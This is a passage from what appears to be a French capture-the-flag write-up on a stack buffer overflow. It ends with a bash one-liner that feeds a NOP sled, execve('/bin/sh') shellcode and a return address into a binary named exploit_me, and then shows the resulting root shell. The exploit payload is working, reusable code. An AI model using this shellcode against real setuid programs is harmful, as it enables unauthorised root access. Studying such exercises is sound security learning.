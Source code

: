 On peut alors assembler tout ceci et lancer notre binaire avec la concaténation de ces 3 strings:
```bash
./exploit_me `python -c 'print "\x90" * 95 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xd0\xf6\xff\xbf"'`
```

Et...
```sh
# whoami
root
```
💥💥💥💥💥  
**F.I.N.**

